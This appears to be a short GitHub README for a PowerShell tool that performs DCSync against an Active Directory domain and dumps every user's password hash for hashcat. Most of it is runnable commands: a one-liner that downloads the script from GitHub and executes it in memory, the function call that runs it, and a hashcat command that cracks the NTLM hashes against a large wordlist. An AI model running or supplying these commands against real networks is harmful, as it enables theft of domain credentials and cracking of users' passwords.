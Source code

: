 # DCSync-To-hashcat
Performs DCSync and extracts all user accounts hashes in a hashcat friendly format

### Execute from GitHub:
```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)
```
### Execute after loading into memory:
```
Invoke-DCSynTH
```

![image](https://user-images.githubusercontent.com/68926315/222810926-7b0c6bfd-e93b-42bc-95c4-877bb6b31a81.png)

### hashcat cracking

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```

